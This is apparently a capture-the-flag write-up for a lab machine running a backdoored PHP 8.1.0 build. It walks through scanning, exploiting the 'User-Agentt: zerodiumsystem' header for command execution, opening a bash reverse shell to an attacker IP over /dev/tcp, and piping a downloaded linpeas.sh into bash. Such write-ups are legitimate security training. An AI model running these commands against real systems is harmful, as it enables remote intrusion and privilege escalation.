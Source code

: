 *Review this and add more info and put in resume*

We start with `nmap`:

```
nmap -sV -sC {ip address}
```
There are two ports open 80 and 22

We enumerate the directories with ffuf:

```
ffuf -u http://10.10.10.242/FUZZ -w /usr/share/wordlists/dirb/common.txt
```

We find the version of php by using `curl`

```
curl -I http://10.10.10.242/index.php
```

We learn that the web-server is `php 8.1.0`

If we pass a header value of `User-Agentt: zerodiumsystem("cmd")`, it should execute on the web-server.

We set up a web-server to listen:

```
sudo python3 -m http.server 80
```

To confirm our header code works we send, and wait for a 200 response on the web-server:

```
curl http://10.10.10.242/index.php -H 'User-Agentt: zerodiumsystem("curl 10.10.14.177");'
```

Set up netcat listener:

```
nc -nlvp 1234
```

Run the reverse shell:

```
curl http://10.10.10.242/index.php -H "User-Agentt: zerodiumsystem(\"bash -c 'bash -i &>/dev/tcp/10.10.14.177/1234 0>&1 '\");"
```

This gives us a shell for user James, we need to escalate privileges to root. To do this we download LinPEAS to our local via wget, then curl our local web-server to get the LinPEAS.

```
Local$ wget wget https://github.com/peass-ng/PEASS-ng/releases/download/20240714-cd435bb2/linpeas.sh

Local$ sudo python3 -m http.server 80

Attack$ curl 10.10.14.177/linpeas.sh|bash
```

The attack command will download the linpeas script on the attacking box and let us know what privilege escalation vulnerabilities are on the box.

